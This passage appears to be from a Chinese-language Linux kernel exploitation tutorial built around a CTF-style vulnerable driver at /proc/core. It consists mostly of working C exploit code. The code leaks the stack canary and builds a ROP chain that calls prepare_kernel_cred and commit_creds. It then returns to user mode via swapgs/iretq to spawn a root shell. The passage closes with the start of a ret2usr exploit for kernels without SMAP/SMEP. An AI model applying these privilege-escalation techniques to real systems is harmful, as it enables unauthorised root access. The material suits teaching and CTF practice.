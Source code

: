     int main(){
        saveStatus();
        get_address();//get commit_creds and prepare_kernel_cred addr

        int fd=open("/proc/core",O_RDWR);
        if(fd <0){
            printf("error! open device failed!\n");
            exit(0);
        }
        // set off = 64
        set_off(fd,0x40);
        // read canary
        char buf[65]={0};
        core_read(fd,buf);
        //printf("buffer:%s\n",&buf[1]);
        long long canary = ((long long *)buf)[0];// detail6
        printf("get canary!%p\n",canary);

        //rop
        unsigned long long kernel_base = commit_cred-0x9c8e0;
        unsigned long long offset = kernel_base-0xffffffff81000000;
        unsigned long long rop[0x100];
        int i=0;
        for(i=0;i<10;i++)
            rop[i]=canary;
        rop[i++]=0xffffffff81000b2f+offset;//pop rdi ret
        rop[i++]=0;
        rop[i++]=prepare_kernel_cred;
        rop[i++]=0xffffffff810a0f49 + offset; // pop rdx; ret
        rop[i++]=0xffffffff81021e53 + offset; // pop rcx; ret
        rop[i++]=0xffffffff8101aa6a + offset; // mov rdi, rax; call rdx;
        rop[i++]= commit_cred;

        rop[i++]=0xffffffff81a012da + offset; // swapgs; popfq; ret
        rop[i++]=0;
        rop[i++]= 0xffffffff81050ac2 + offset; // iretq; ret;
        rop[i++] = (size_t)get_shell;         // rip 

        rop[i++] = user_cs;
        rop[i++] = user_rflags;
        rop[i++] = user_sp;
        rop[i++] = user_ss;

        write(fd, rop, 0x800);
        ioctl(fd,0x6677889A,0xffffffffffff0000|0x100);
        return 0;
    }


### ret2usr<br>
在没有开启SMAP/SMEP的情况下，可以使用ret2usr，直接在内核态访问用户态的代码并执行。<br>
`PS: 在使用ret2usr进行提取时，切记不要使用库函数（会引起系统调用导致内核panic）`

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <fcntl.h>
#include <sys/types.h>

size_t commit_creds=0;
size_t prepare_kernel_cred =0;

size_t user_cs;
size_t user_ss;
size_t user_sp;
```